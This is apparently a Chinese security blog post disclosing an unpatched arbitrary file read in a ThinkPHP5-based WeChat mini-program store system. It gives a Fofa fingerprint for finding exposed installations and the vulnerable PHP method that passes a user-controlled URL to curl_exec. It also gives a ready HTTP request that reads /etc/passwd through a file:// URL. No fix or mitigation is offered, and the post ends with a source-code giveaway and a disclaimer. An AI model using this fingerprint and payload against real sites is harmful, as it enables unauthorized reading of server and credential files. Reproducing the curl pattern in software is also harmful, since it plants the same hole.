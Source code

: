#  【0day】某微信万能门店小程序系统存在任意文件读取漏洞   
原创 Mstir  星悦安全   2024-11-19 04:23  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
- █   
远山起风又起雾 无人知我来时路  
 █  
  
- **万能门店小程序DIY建站无限独立版非微擎应用，独立版是基于国内很火的ThinkPHP5框架开发的，适用于各行各业小程序、企业门店小程序！**  
  
- **万能门店微信小程序不限制小程序生成数量，支持多页面，预约功能等。 本套源码包含多商户插件、点餐插件、拼团插件、积分兑换、小程序手机客服等全套十个插件模块。**  
  
- **支持后台一键扫码上传小程序，和后台通用模板。**  
  
- **增加了：抖音/头条小程序，百度小程序，支付宝小程序，qq小程序，H5端**  
  
**Fofa指纹:**  
```
"/comhome/cases/index.html"
```  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulOAQkmvWFZic2p7hrrbwQNmicEUjhvwJnNGJSLTQt0eRoJhThxicgozX74Q/640?wx_fmt=other&from=appmsg "")  
  
后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulO8oicUdGjMgMtsynwsmn8vpbLibQeo8IndG8npvOW7ff0yISfWJjfoeuQ/640?wx_fmt=jpeg "")  
  
框架:ThinkPHP 5 Debug:False  
## 0x01 漏洞分析&复现  
  
**位于 /application/api/controller/Wxapps.php 控制器中的_requestPost 方法存在curl_exec 函数，且传参均可控，导致漏洞产生.**  
  
```
//不带报头的curlpublic function _requestPost($url, $data, $ssl = true)  {    //curl完成    $curl = curl_init();    //设置curl选项    curl_setopt($curl, CURLOPT_URL, $url);//URL    $user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0 FirePHP/0.7.4';    curl_setopt($curl, CURLOPT_USERAGENT, $user_agent);//user_agent，请求代理信息    curl_setopt($curl, CURLOPT_AUTOREFERER, true);//referer头，请求来源    curl_setopt($curl, CURLOPT_TIMEOUT, 30);//设置超时时间    //SSL相关    if ($ssl) {      curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);//禁用后cURL将终止从服务端进行验证      curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, 2);//检查服务器SSL证书中是否存在一个公用名(common name)。    }    // 处理post相关选项    curl_setopt($curl, CURLOPT_POST, true);// 是否为POST请求    curl_setopt($curl, CURLOPT_POSTFIELDS, $data);// 处理请求数据    // 处理响应结果    curl_setopt($curl, CURLOPT_HEADER, false);//是否处理响应头    curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);//curl_exec()是否返回响应结果    // 发出请求    $response = curl_exec($curl);    if (false === $response) {      echo '<br>', curl_error($curl), '<br>';      return false;    }    curl_close($curl);    return $response;  }
```  
  
  
**Payload:**  
  
```
GET /api/wxapps/_requestPost?url=file:///etc/passwd&data=1 HTTP/2Host: 127.0.0.1Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "Windows"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulOlqHJiboyIJYBlWl5M3KUT7EqYZnKVwFnxVyAriaeoUibdjhicm8E6gHCKw/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**购物商城源码关注公众号发送 241119 获取!**  
  
  
  
  
**进星悦安全公开群添加下方VX 备注 "进群"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGK5v6wyHcicibH4ia14Wq1n0fPvn1C0QPAe98oVABtMWOA8nRPfHia0YqAFw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  

